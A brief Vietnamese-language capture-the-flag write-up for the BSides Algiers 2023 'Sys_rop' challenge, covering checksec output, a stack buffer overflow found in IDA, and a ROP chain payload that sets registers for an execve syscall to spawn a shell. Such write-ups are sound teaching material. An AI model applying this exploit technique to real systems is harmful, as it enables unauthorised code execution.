



# Bsides_algiers_2023 - Sys_rop

# 1. Xem thông tin file

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, stripped
```
Đây là file 64-bit bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x400000)
RWX:      Has RWX segments
```

Tiếp đến đưa file vào ida-64bit






# 2. Phân tích 

Sau khi đã sửa tên hàm mình đã nhận ra ở đây có BOF do biến `v5` nằm tại `rbp-0x50` nhưng được nhập vào `0x100` 

Và ở đây có sẵn chuỗi `/bin/sh` và các gadgets

-> ROP chain
 
# 3. Khai thác

```
payload = payload = b'A' * 88
payload += p64(pop_rax)
payload += p64(0x3b)
payload += p64(pop_rdi)
payload += p64(0x402010)
payload += p64(pop_rsi)
payload += p64(0x0)
payload += p64(pop_rdx)
payload += p64(0x0)
payload += p64(syscall)
```

Ở đây mình chỉ cần set up các thanh ghi sao cho phù hợp với `syscall exceve` và lấy được shell

